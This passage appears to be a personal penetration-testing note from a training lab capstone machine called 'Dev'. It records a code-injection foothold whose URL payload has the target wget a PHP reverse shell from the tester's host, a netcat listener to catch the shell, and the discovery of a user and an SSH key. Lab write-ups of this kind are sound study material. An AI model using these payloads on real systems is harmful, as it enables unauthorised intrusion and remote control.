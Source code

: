 - Initial foothold was found with `code / template injection` on dev page.
  [[PNPT/PEH/Capstone/Dev/HTTP - 8080]]
- Let's get a shell:
- `http://192.168.157.131:8080/dev/pages/hello241.php?0=wget%20192.168.1.10:8000/shell.php` => pentest monkey shell
- `nc -lnvp 9001`
- ![[Pasted image 20250325142728.png]]
- Another user `jeanpaul` found
- ![[Pasted image 20250325142811.png]]
- This is the same user `jp` that left us note and `id_rsa` for its ssh in [[NFS - 111, 2049]]